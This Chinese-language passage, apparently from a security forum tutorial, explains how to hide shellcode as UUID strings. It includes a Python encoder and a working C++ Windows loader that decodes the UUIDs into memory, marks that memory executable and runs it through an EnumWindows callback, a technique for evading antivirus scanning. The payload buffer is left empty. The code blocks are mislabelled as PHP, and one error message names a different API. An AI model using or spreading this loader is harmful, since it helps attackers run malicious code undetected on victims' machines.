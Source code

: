 通用唯一识别码(UUID),是用于计算机体系中以识别信息数目的一个128位标识符，根据标准方法生成，不依赖中央机构的注册和分配，UUID具有唯一性。

python中有UUID的模块

```php
import uuid

buf = b""
list = []

for i in range(len(buf)//16):
    b = uuid.UUID(bytes_le=buf[i*16:16+i*16])
    list.append(str(b))
print(str(list).replace("'", "\"").replace("[","{").replace("]","}") + ";")
```

![6.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-a9671312ebae8fe44bbe8f9089c048832fbd78de.png)

### UuidFromStringA

我们可以使用此函数将其写入执行

```php
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```

第一个参数指向UUID的字符串表示形式的指针，第二个参数以二进制形式返回指向UUID的指针。

逻辑也是很简单

```php
#include <windows.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
using namespace std;

int main() {
    const char* buf[] = { 0 };
    PCSTR lTerminator = NULL;
    DWORD pflOldProtect = 0;
    LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(buf) * 16, MEM_COMMIT, PAGE_READWRITE);

    DWORD_PTR ptr = (DWORD_PTR)alloc_mem;
    int init = sizeof(buf) / sizeof(buf[0]);
    for (int i = 0; i < init; i++) {
        RPC_STATUS STATUS = UuidFromStringA((RPC_CSTR)buf[i], (UUID*)ptr);
        if (!NT_SUCCESS(STATUS)) {
            printf("[!] RtlEthernetStringToAddressA failed in %s result %x (%u)", buf[i], STATUS, GetLastError());
            return FALSE;
        }
        ptr += 16;
    }
    VirtualProtect(alloc_mem, sizeof(buf)*16, PAGE_EXECUTE, &pflOldProtect);
    EnumWindows((WNDENUMPROC)alloc_mem, NULL);
    return 0;
}
```
